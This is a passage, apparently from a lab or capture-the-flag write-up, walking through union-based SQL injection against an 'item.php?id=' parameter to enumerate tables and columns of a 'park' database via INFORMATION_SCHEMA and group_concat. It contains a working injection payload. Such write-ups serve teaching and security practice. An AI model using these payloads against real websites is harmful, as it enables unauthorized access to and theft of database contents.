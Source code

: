 This shows us there is a table called "users" in the database. To check if there are any other tables we can use the [group\_concat()](https://www.w3resource.com/mysql/aggregate-functions-and-grouping/aggregate-functions-and-grouping-group\_concat.php) function

\- /item.php?id=100 UNION select NULL, NULL, NULL, group\_concat(table\_name), NULL FROM INFORMATION\_SCHEMA.COLUMNS WHERE TABLE\_SCHEMA = "park"

![](<../.gitbook/assets/sqli group concat table.PNG>)

**Get column names names from database park and table user**\
The SQL command we are looking to perform is:

```sql
SELECT COLUMN_NAME
  FROM INFORMATION_SCHEMA.COLUMNS
  WHERE TABLE_SCHEMA = 'my_database' AND TABLE_NAME = 'my_table';
```
